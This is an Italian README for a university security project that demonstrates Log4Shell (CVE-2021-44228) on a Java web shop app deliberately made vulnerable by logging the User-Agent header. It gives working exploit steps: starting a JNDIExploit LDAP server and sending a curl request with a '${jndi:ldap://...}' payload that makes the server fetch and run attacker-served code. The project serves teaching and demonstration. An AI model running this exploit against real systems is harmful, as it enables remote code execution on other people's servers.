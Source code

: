 # Progetto sicurezza Informatica ICDA A.A 2021-2022

Lo scopo di questo progetto è quello di mostrare la vulnerabilità Log4shell CVE-2021-44228 che affligge la libreria Java Log4j , impiegata da innumerevoli software di ogni tipo (programmi standard, giochi, webapp).

In questo progetto è stata scelta una webapp realizzata con il popolare web framework Java MVC, opportunamente modificata per lo scopo.

La parte da me modificata si trova nel controller "HomeController", file "src\main\java\com\nico\store\store\controller\HomeController.java".
Nel controller è stata istanziata la classe Logger, ed è stata aggiunta (mediante annotazione) l'istruzione per ricavare l'header della richiesta "User-Agent" e passarla al controller. All'interno del controller, si è usata l'istanza del Logger per loggare la User-Agent. Ne consegue quindi, che se un client invia una  richiesta al server con l'header opportunamente modificato (nel nostro caso la user-agent, ma avrei potuto sceglierne un altro volendo), contenente un'istruzione per il download di una classe Java da un server JNDI, verrà eseguito il codice contenuto nella classe.

La libreria impiegata di log4J 2.6.1.
Nel progetto è presente il file pom.xml per la compilazione tramite Maven.
Ho creato un DockerFile che contiene al suo interno tutto il necessario per avviare l'immagine senza alcuna configurazione e senza installare la JDK necessaria per dimostrare l'exploit.

## Utilizzo
Prima di tutto sarà necessario avviare un server mysql e impostare il relativo indirizzo, username e password nel file "application.properties", all'interno della cartella "resources". è possibile utilizzare un container docker allo scopo.

Successivamente sarà necessario avviare il server LDAP che servirà la classe Java con il Payload.


```bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i tuo-indirizzo-ip-privato -p 8888
```



Per sfruttare la vulnerabilità è necessario  creare un payload (un comando che si vuole far eseguire al server remoto). Esempio:

```bash
touch /tmp/hacked
```

e includerlo (codificato in base64) in una richiesta da inviare al server della webApp. Si userà il comando Curl per lo scopo.

Una volta inviato il comando, il metodo della libreria Log4j invocato nel controller, interpreterà il comando, sarà scaricata ed eseguita  una classe Java dal server JNDI (controllato dall'attaccante)  e successivamente avverrà l'esecuzuzione del payload, contenuto all'interno della classe Java scaricata nel passo precedente. Esempio di comando valido:

```bash
curl -A '${jndi:ldap://192.168.10.128:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9oYWNrZWQ=}' http://172.18.0.2:8080
```
Per codificare in base64 il payload ci si può servire del tool disponibile qui: https://gchq.github.io/CyberChef/

## Avvio web-app

```bash
docker run --name nomeApplicazione -p 8080:8080 --network nomeRete
```




Successivamente sarà possibile notare dai log del server JNDI che è stata "servita" la classe Java al server della nostra WebApp, con il payload al suo interno.
A seconda del comando eseguito, è possibile vedere il risultato. Ad esempio, se il payload provoca la creazione di file, è possibile entrare nel container e verificarlo. Ad esempio:


```bash
docker exec -it nomeApplicazione sh
```

```bash
ls /tmp/hacked
```

Ovviamente è possibile sfruttare la vulnerabilità eseguendo la webApp senza docker, ma è necessario che la JDK (o JRE) abbia abilitata l'opzione che consente di eseguire classi scaricate da un server remoto JNDI.
L'immagine docker, ad esempio, è stata creata a partire dalla JDK-8u181, che ha l'opzione abilitata di default.

```bash
com.sun.jndi.ldap.object.trustURLCodebase
```

Tuttavia, avere una versione più recente della JDK/JRE non è sufficiente per mettersi completamente al riparo dalla vulnerabilità.


```

## Contributing
La webApp impiegata in questo progetto è stata creata dall'autore GNico (github: https://github.com/GNico/spring-eshop )


Il server JNDI è stato creato da feihong-cs.


La libreria Log4J è di Apache Software foundation https://logging.apache.org/log4j/2.x/index.html

Integrazione libreria Log4J nella webApp e containerizzazione: Andrea Carro



## License
[MIT](https://choosealicense.com/licenses/mit/)
